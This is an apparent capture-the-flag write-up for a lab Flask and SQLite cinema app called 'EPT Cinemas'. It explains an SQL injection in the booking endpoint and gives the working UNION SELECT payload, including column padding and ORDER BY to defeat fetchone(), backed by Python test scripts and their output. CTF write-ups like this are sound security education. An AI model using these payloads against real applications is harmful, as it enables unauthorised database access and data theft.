





# Writeup: EPT Cinemas

**Team:** big🔥

**Author:** Jyggorath

**Flag:** `EPT{sql_injection_4_the_Win!}`

## The target

In this challenge we are presented with a link to a web site and the source code for download. The site is a cinema app, with a catalogue of movies and the option to place bookings.

Main page                          | Booking page
:--------------------------------: | :--------------------------------------:
 | 

Looking at the source code, we can see that it is a Flask app which stores and fetches movie information and bookings in an SQLite database. The database file itself was included. 

## The database

Looking at the database, we can see that it contains 3 tables in addition to the internal `sqlite_sequence` table, and that one of them contains **the flag**:



Not surprisingly this is a dummy flag. But it's likely the real flag is found in the database that is actually used by the running web app:



## The vulnerability

Most of the SQL statements in the code are parameterized, for instance:

```python
conn.execute(
	"INSERT INTO bookings (movie_id, name, tickets, showtime) VALUES (?, ?, ?, ?)",
	(movie_id, name, tickets, showtime),
)
```

However, there is one, glaring SQL injection vulnerability in the statement that fetches the base movie information on when you browse to the booking endpoint (`/book/<string:movie_id>`):

```python
movie = conn.execute("SELECT * FROM movies WHERE id = "+str(movie_id)).fetchone()
```

## Getting the flag

Because we have the database, we can easily test queries:



If we write a small script to test this with the same logic as in the challenge however, we'll see that it doesn't work:

```python
#!/usr/bin/python3
import sqlite3

movie_id = "1; SELECT * FROM flag"
conn = sqlite3.connect("database.db")
movie = conn.execute("SELECT * FROM movies WHERE id = "+str(movie_id)).fetchone()

print(movie)
```
```
$ ./test.py
Traceback (most recent call last):
  File "/home/jyggorath/statoilctf/ept-cinema/mine.py", line 9, in <module>
    movie = conn.execute("SELECT * FROM movies WHERE id = "+str(movie_id)).fetchone()
sqlite3.Warning: You can only execute one statement at a time.
```

We're limited to a single statement. So instead of chaining queries in this manner, we can use `UNION SELECT` to get results from both tables in a single statement instead:



When using `UNION SELECT` like this, we have to ensure that the `SELECT`'s to both tables return the same amount of columns. The original statement selects `*`, so it will get all the 8 columns from the `movies` table. The `flag` table however, only has 1 column. We can therefore pad it by just putting some value in place of the columns, like `'a', 'a', 'a', ...`

In order to make sure we can see the flag, we set it as the second column, which corresponds to the `title` column in `movies`.

Testing this in the test script we can see that it runs, but still doesn't give us the flag:

```python
#!/usr/bin/python3
import sqlite3

movie_id = "1 UNION SELECT 'a', flag, 'a', 'a', 'a', 'a', 'a', 'a' FROM flag"
conn = sqlite3.connect('database.db')
movie = conn.execute("SELECT * FROM movies WHERE id = "+str(movie_id)).fetchone()

print(movie)
```
```
$ ./test.py
(1, 'Inception', 50, 'img/inception.jpg', 'PG-13', 'Sci-Fi, Thriller', '2h 28m', '7:00 PM,9:30 PM')
```

The reason is the use of the `fetchone()` function, regardless of how many rows the query results in, the Python code will only ever use the first one. The fix for this is simple, we just need to order the query so the flag is in the first row:

```python
#!/usr/bin/python3
import sqlite3

movie_id = "1 UNION SELECT 'a', flag, 'a', 'a', 'a', 'a', 'a', 'a' FROM flag ORDER BY id DESC"
conn = sqlite3.connect('database.db')
movie = conn.execute("SELECT * FROM movies WHERE id = "+str(movie_id)).fetchone()

print(movie)
```
```
$ ./test.py
('a', 'EPT{fake_flag}', 'a', 'a', 'a', 'a', 'a', 'a')
```

By replacing the ID in the path in the web app with our partial query, we get the flag:

